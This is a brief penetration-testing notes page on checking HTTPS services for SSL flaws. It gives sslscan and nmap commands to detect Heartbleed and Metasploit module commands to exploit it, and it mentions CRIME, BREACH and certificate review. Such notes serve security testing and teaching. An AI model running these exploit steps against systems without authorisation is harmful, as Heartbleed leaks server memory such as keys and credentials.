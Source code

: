 ```yaml
---
title: ""
permalink: /443-HTTPS/
layout: single
author-profile: true
---
```

# 443-HTTPS

Okay this is only here as a reminder to always check for SSL-vulnerabilities such as heartbleed. For more on how to exploit web-applications check out the chapter on client-side vulnerabilities.
Heartbleed

OpenSSL 1.0.1 through 1.0.1f (inclusive) are vulnerable OpenSSL 1.0.1g is NOT vulnerable OpenSSL 1.0.0 branch is NOT vulnerable OpenSSL 0.9.8 branch is NOT vulnerable

First we need to investigate if the https-page is vulnerable to heartbleed, we can do that the following way:
```
sudo sslscan ip:443
```
or using a nmap script
```
nmap -sV --script=ssl-heartbleed ip
```
You can exploit the vulnerability in many different ways. There is a module for it in burp suite, and metasploit also has a module for it.
```
use auxiliary/scanner/ssl/openssl_heartbleed
set RHOSTS 192.168.101.8
set verbose true
run
```
Now you have a flow of random data, some of it might be of interest to you.
- CRIME
- Breach
- Certificate

Read the certificate.

Does it include names that might be useful?

